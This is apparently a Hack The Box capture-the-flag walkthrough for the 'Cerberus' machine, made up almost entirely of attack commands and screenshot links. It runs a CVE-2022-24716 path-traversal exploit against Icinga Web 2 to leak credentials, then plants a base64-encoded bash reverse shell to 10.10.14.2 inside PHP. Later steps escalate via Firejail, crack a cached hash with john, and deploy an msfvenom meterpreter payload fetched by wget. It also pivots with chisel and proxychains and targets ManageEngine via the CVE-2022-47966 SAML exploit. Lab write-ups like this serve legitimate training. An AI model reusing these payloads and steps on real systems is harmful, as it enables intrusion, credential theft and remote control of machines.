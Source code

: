 ```
nano /etc/hosts
http://icinga.cerberus.local:8080/icingaweb2/authentication/login
https://github.com/doosec101/CVE-2022-24716
python3 exploit.py -h
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/resources.ini
http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini
openssl genrsa -out private-key.pem 1024
Configuration – Application: Create a New Resource
../../../../../../../../../../../../dev/shm/test.txt
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /dev/shm/test.txt
echo "sh -i >& /dev/tcp/10.10.14.2/10001 0>&1" | base64 -w 0
../../../../../dev/shm/training/configuration.php
Module path: /dev/shm/
Triger: Click Access Control
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /dev/shm/training/configuration.php
python3 -c 'import pty; pty.spawn("/bin/bash")’
find / -perm -4000 2>/dev/null
firejail --version
https://www.openwall.com/lists/oss-security/2022/06/08/10/1
./firejoin.py
firejail --join=3089
su -
ifconfig
ps aux | grep root
cd /var/lib/sss/db
strings cache_cerberus.local.ldb | sort -u | head
john hash -w=/usr/share/wordlists/rockyou.txt
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.10.14.2 lport=10002 -f elf -o shell
use exploit/multi/handler
run -j
use auxiliary/server/socks_proxy
run -j
nano /etc/proxychains4.conf
wget http://10.10.14.2:8000/shell
./shell &
use post/multi/manage/autoroute
proxychains evil-winrm -i 172.16.22.1 -u matthew -p 147258369
netstat -ano | select-string LIST
cat /etc/hosts
git clone https://github.com/jpillora/chisel.git
./chisel_1.9.0_linux_amd64 server --socks5 -p 6666 --reverse
iwr('http://10.10.14.2:8000/chisel_1.9.0_windows_amd64') -outfile chisel.exe
start-process -filepath .\chisel.exe -args "client 10.10.14.2:6666 R:8888:socks"
nano /etc/proxychains4.conf
New SOCKS proxy
https://dc.cerberus.local:9251
wget https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966.rb
cd "C:\program files (x86)\manageengine\ADSelfService Plus\backup“
download OfflineBackup_20230214064809.ezip
7z x OfflineBackup_20230214064809.ezip
grep -i issuer_url *
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.11.205
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8c945ce1-850e-47d9-b545-95e5d5be3b31)


```
nano /etc/hosts
http://icinga.cerberus.local:8080/icingaweb2/authentication/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2e53b3ba-9d4e-4e19-94c4-3ad78b2a2c15)

![image](https://github.com/regarmulia/HTB/assets/33616880/330d7aaa-bfc3-4e35-b234-af77244c7bfb)


```
https://github.com/doosec101/CVE-2022-24716
python3 exploit.py -h
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/resources.ini
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f53f8aae-4c25-4a22-8b45-a2deae71adcd)

![image](https://github.com/regarmulia/HTB/assets/33616880/c74c6800-1267-4351-b163-d5069f20811c)


```
OR ./lfi.py
username = "matthew"
password = "IcingaWebPassword2023"
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9e630069-3f72-4fb8-bb30-1e3cba6b0812)


```
http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3587318-f571-491e-85bd-24cafc9f0401)


```
Login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d98c50cf-6cd1-4f19-955e-9eaf5ca00636)


```
openssl genrsa -out private-key.pem 1024
Configuration – Application: Create a New Resource
../../../../../../../../../../../../dev/shm/test.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7af4a30b-6f7d-4c21-a2e3-1a645d0f4ed9)

![image](https://github.com/regarmulia/HTB/assets/33616880/974644ba-82e3-4093-afd2-ad697a2418e6)


```
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /dev/shm/test.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6a42bef0-0852-4ac7-80ef-dd5f55e849f4)


```
echo "sh -i >& /dev/tcp/10.10.14.2/10001 0>&1" | base64 -w 0
../../../../../dev/shm/training/configuration.php
Module path: /dev/shm/
Triger: Click Access Control
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /dev/shm/training/configuration.php

<?php
{
         system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi8xMDAwMSAwPiYxCg==|base64 -d|bash");
}
?>

-----BEGIN PRIVATE KEY-----
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c09ce7c0-7fad-456d-9308-f70ce39597ae)

![image](https://github.com/regarmulia/HTB/assets/33616880/b1a9851d-72eb-4d0b-ad35-ec011a501987)

![image](https://github.com/regarmulia/HTB/assets/33616880/4fca906c-02ec-48c1-b086-916eae7c050f)

![image](https://github.com/regarmulia/HTB/assets/33616880/d5eac0cc-b163-43b3-98f2-6b27eeaf3c6d)


```
python3 -c 'import pty; pty.spawn("/bin/bash")’
find / -perm -4000 2>/dev/null
```
![image](https://github.com/regarmulia/HTB/assets/33616880/688e17cd-f90a-42c1-8c69-a402978553b9)


```
firejail --version
```
![image](https://github.com/regarmulia/HTB/assets/33616880/eab00318-12ec-4adb-af59-9a1bbde88edd)


```
https://www.openwall.com/lists/oss-security/2022/06/08/10/1
./firejoin.py
firejail --join=3089
su -
```
![image](https://github.com/regarmulia/HTB/assets/33616880/89365045-1e44-41f9-bc9c-e1c4d9001491)

![image](https://github.com/regarmulia/HTB/assets/33616880/ef258d83-9c59-49a2-946d-77ab18f30bc8)


```
ifconfig
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7a8b416e-d9a2-4c83-b1f9-be1e52029a69)


```
ps aux | grep root
cd /var/lib/sss/db
strings cache_cerberus.local.ldb | sort -u | head
```
![image](https://github.com/regarmulia/HTB/assets/33616880/38531902-3ecb-4616-9d02-a58cf4d46ffb)

![image](https://github.com/regarmulia/HTB/assets/33616880/179029c1-fa5c-4a47-a931-d3e8ab92333a)


```
john hash -w=/usr/share/wordlists/rockyou.txt
147258369
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9cddadc3-aca2-4127-b19f-3619563d7c67)


```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.10.14.2 lport=10002 -f elf -o shell
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d52758b-5933-43c3-bc7b-1478c3e2e3c0)


```
use exploit/multi/handler
run -j
use auxiliary/server/socks_proxy
run -j
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ec61ef7d-8063-406f-8719-584f42e6477c)

![image](https://github.com/regarmulia/HTB/assets/33616880/e1e3def5-1d53-4c17-a068-22a19e6e0422)


```
nano /etc/proxychains4.conf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fc6d2901-4950-488f-9e9c-9b3bb4a3f630)


```
wget http://10.10.14.2:8000/shell
./shell &
```
![image](https://github.com/regarmulia/HTB/assets/33616880/302a4b0f-1430-41dc-8052-c06660d0754b)


```
use post/multi/manage/autoroute
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0e76bcae-fb3e-4538-9966-4f88134f240d)


```
proxychains evil-winrm -i 172.16.22.1 -u matthew -p 147258369
```
![image](https://github.com/regarmulia/HTB/assets/33616880/098498bd-c8e9-44c9-b8a5-d9c638f91b42)

![image](https://github.com/regarmulia/HTB/assets/33616880/45d9133f-648b-4069-85aa-0307f783bcf2)


```
netstat -ano | select-string LIST
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bfcdbe5d-933c-420f-8aec-bfa6fcc4d612)


```
cat /etc/hosts
```
![image](https://github.com/regarmulia/HTB/assets/33616880/aee0f466-efd5-4e27-b9f8-4e1f978dfe28)


```
git clone https://github.com/jpillora/chisel.git
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8d2867a4-849c-4b95-87e5-274988b0c39c)


```
./chisel_1.9.0_linux_amd64 server --socks5 -p 6666 --reverse
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a07718ca-c3fd-43fd-8d25-ff0d37b44b1e)


```
iwr('http://10.10.14.2:8000/chisel_1.9.0_windows_amd64') -outfile chisel.exe
start-process -filepath .\chisel.exe -args "client 10.10.14.2:6666 R:8888:socks"
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c0ccfeea-234e-4df4-aa22-0a06f8bbeaad)


```
nano /etc/proxychains4.conf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/eb447332-f655-4c71-8aba-ed609456a2d5)


```
New SOCKS proxy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/794c406e-f983-4efb-bba8-209f943e474a)


```
https://dc.cerberus.local:9251
https://dc.cerberus.local/adfs/ls/?SAMLRequest=pVNNj9owFLz3V0S%2Bky8cEizCikJXRWLbCLI99FI5zgtrybGp7bDsv1%2BHjy2tWiq1J0v2vPfmzYwnd4dWeHvQhiuZo8gPkQeSqZrLbY4ey%2FtBhu6m7yaGtiLekVlnn%2BQavndgrDczBrR1dXMlTdeC3oDecwaP61WOnqzdGRIEizkZx0kU9A1WastlMEppVkdhNBqHOIxrNqKjFOMqa1hGU0Yjyposq%2BIGeQs3hUtqj9QuDWvmM9AV6M74QjEqAlo3JhAmQN5ykaNvuKrjCqc4TcIhhCHgJMVxQtNkNB5inEQOZkwHS2kslTZHcRgPB2E2iKMyzEiECR77KY6%2BIq%2FQyiqmxHsuT3p0WhJFDTdE0hYMsYxsZg8rEvshqU4gQz6WZTEoPm%2FKY4M9r0F%2FcugcPVBJt%2FBBOhHAmy02IJqzYl4hOoO8Lxcb4t4GZ4w05CT87dG7M080PflEjgtq717pltrbtf0NrwfNEUpAWm5ffpp9u5xeMoCm%2F%2B%2F4JLimP72ErldvuSiU4OzFmwmhnucaqHWKWt0B%2BuuakR%2F9smYnzQ4YbzjUKHibc8411MeUu1BbOFhvrtod1dz0vsCBMvum8jVsLpwSa2j%2BSbmbMEZY39tdF%2B54VrruYwnM8Sw1dYsobS%2FC%2FY7R9Pz4h%2F1%2BPF%2F%2F7ekr&RelayState=aHR0cHM6Ly9EQzo5MjUxL3NhbWxMb2dpbi9MT0dJTl9BVVRI
```
![image](https://github.com/regarmulia/HTB/assets/33616880/78030abe-deeb-41b7-8034-3e171fb53f57)


```
wget https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966.rb
```


```
cd "C:\program files (x86)\manageengine\ADSelfService Plus\backup“
download OfflineBackup_20230214064809.ezip
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4013981f-0825-4bc6-8fd0-bff4eee746c2)


```
7z x OfflineBackup_20230214064809.ezip
grep -i issuer_url *
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b8aaa3ce-a802-41da-abaf-b9ba871c8ddc)

![image](https://github.com/regarmulia/HTB/assets/33616880/c9023ba0-590d-4291-9e3a-b1ed9672e5dc)


